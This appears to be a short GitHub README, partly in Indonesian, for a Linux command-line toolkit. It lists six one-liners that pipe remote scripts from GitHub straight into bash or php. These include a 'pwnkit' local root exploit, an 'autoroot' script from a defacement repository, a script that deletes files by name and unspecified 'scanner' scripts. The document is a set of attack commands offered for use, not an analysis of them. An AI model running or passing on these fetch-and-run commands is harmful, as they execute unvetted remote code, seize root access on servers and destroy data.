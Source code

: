 # fungsiini Command line linux
# Robot Mabok Anti

1, scaner cepat 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh | bash > hascan.txt 2>&1

2, backup auto defend

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/cod.php | php - backup y > hackup.txt 2>&1

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash

5, Mendelet berdasarkan nama file kon7l

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/delet.php | php namafile.php


6, root semua all

wget https://raw.githubusercontent.com/pwnsauce403/dface/main/tahi/autoroot/autoroot_unix.sh -q -O - |bash
